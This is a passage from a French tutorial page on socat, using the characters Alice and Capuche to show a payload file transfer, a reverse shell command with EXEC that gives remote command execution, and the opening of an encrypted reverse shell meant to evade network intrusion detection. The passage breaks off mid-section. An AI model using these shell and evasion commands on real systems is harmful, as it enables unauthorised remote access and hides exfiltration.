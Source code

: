 **Alice** reçoit bien la connexion de **Capuche** :

![vmware_awvnvg2clb.png](/uploads/reconnaissance/vmware_awvnvg2clb.png){.align-center}

## TRANSFERT DE FICHIER

Dans notre cas, **Capuche** crée un serveur d'écoute avec un trigger pour lancer le téléchargement d'un fichier payload à la connexion d'**Alice**.

Création du serveur d'écoute et du trigger : `socat TCP4-LISTEN:[Port],fork file:[Fichier]`

![tdfxqlbdcp.gif](/uploads/reconnaissance/tdfxqlbdcp.gif){.align-center}

Connexion est download d'Alice : `socat TCP4:[@IP]:[Port] file:[Fichier],create`

![kmzv5kgwcx.gif](/uploads/reconnaissance/kmzv5kgwcx.gif){.align-center}

## REVERSE SHELL

**Alice** crée un serveur d'écoute et **Capuche** s'y connecte en bindant un Shell.

Création du serveur d'écoute : `socat -d -d TCP4-LISTEN:[Port] STDOUT`

![43mvrsnavh.gif](/uploads/reconnaissance/43mvrsnavh.gif){.align-center}

Connexion : `socat TCP4:[@IP]:[Port] EXEC:[Executable]`
**Alice** peut maintenant exécuter des commandes sur le poste de **Capuche**.

![j8vfp1styk.gif](/uploads/reconnaissance/j8vfp1styk.gif){.align-center}

## REVERSE SHELL CHIFFRÉ
> Pour éviter la détection de fuite d'information par un réseau cible, il est possible de chiffrer ses communications pour utiliser un shell sécurisé.
{.is-success}

> **Remarque** : Une exfiltration trop importante sur une durée réduite peut avoir l'effet inverse et déclencher les sondes d'un NIDS (*Network Intrusion Detection System*).
{.is-warning}


> OpenSSL est une boîte à outils de chiffrement comportant deux bibliothèques, libcrypto et libssl, fournissant respectivement une implémentation des algorithmes cryptographiques et du protocole de communication SSL/TLS, ainsi qu'une interface en ligne de commande, openssl. 
> *Source : https://fr.wikipedia.org/wiki/OpenSSL*
{.is-info}

Dans notre exemple, **Alice** génère un certificat x.509 autosigné utilisant un couple clé privée / clé publique sous le modèle SSL PKI. 

*Si vous avez l'impression de voir flou et de lire de l'hébreu, pas de panique, une section cryptographie est là pour vous aider.*

Petit rappel :
